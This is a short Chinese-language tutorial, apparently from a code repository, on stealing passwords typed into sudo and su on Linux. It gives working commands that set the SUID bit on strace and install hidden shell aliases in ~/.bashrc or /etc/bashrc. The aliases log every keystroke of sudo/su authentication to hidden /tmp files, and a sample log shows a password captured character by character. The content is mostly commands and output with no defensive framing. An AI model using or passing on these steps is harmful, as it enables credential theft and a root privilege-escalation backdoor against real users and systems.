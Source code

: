 ### 收集`su、sudo`等需要提升权限运行的程序的登录凭证

1.给strace程序添加suid权限，即以root权限执行

```bash
# 查看strace文件位置
which strace
/usr/bin/strace
# 添加suid权限
chmod +s /usr/bin/strace

```

2.添加命令别名

```bash
# 添加命令别名
vi ~/.bashrc或者/etc/bashrc
alias sudo='strace -f -e trace=read,write -o /tmp/.sudo-`date '+%d%h%m%s'`.log -s 32 sudo'
alias su='strace -f -e trace=read,write -o /tmp/.su-`date '+%d%h%m%s'`.log -s 32 su'
# 使命令别名立即生效
source ~/.bashrc

```

3.记录的strace文件如下：

```bash
write(6, "[sudo] password for kali: ", 26) = 26
read(6, "i", 1)                         = 1
read(6, "l", 1)                         = 1
read(6, "a", 1)                         = 1
read(6, "k", 1)                         = 1
read(6, "\n", 1)                        = 1

```

4.根据程序运行输出的特征字符串定位密码位置

